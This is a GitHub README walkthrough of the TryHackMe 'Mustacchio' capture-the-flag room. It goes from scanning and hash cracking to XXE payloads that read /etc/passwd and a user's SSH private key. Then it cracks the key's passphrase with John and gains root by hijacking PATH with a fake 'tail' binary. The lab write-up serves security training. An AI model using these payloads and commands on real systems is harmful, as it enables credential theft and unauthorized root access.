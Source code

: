# Mustacchio CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Mustacchio** CTF challenge on [TryHackMe](https://tryhackme.com/room/mustacchio). 
---
scanning for open ports

![scan](img/scan.png "scan")

checking hidden directories with feroxbuster

![ferox](img/ferox.png "ferox")

decided to check `/custom/js` and found users.bak sqlite3 database file 

![custom](img/custom.png "custom")

![sql](img/sql.png "sql")

found login credentials for `admin`, we need to crack the hash, i used crackstation

![crack](img/crack.png "crack")

login form on port `8765` 

![admin](img/admin.png "admin")

after using admin credentials, we can find 2 clue inside source code

![barryhint](img/barryhint.png "barryhint")

```
<!-- Barry, you can now SSH in using your key!-->
```
```
//document.cookie = "Example=/auth/dontforget.bak"; 
```

i started testing comment form

![xml](img/xml.png "xml")

the request in burpsuite

![xmltest](img/xmltest.png "xmltest")

the data is sent as xml parameter so i will test for XXE (XML eXternal entity)

i grabbed the code from portswigger website and have to slightly modify it to our needs

testing XXE with /etc/passwd

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>

```

![passwd](img/passwd.png "passwd")

we have access to /etc/passwd

we know about a ssh key so modify the xml parameter to grab it

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```
![rsa](img/rsa.png "rsa")

![pass](img/pass.png "pass")

there is a passphrase so i will try to crack it with john

```
/usr/bin/ssh2john barrykey > hash.txt
```

![ssh2john](img/ssh2john.png "ssh2john")

now

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![john](img/john.png "john")

we got a passphrase

now logging as barry and grabbing user flag

![user](img/user.png "user")

ran a few commands to check for PE factor and found something interesting while checking SUID files

```
find / -perm -4000 2>/dev/null
```

found `/home/joe/live_log` sript

![suid](img/suid.png "suid")

checked for strings in this file

![strings](img/strings.png "strings")

script uses tail command so if we could create our own tail command we would gain root access

```
$ mkdir /tmp/tail
$ cd /tmp/tail && touch tail
$ echo "/bin/bash" > tail
$ chmod +x tail
$ export PATH=/tmp/tail:$PATH
```

![faketail](img/faketail.png "faketail")

now we just run `/home/joe/live_log` sript

we got root access and can grab root flag

![root](img/root.png "root")

## MACHINE PWNED

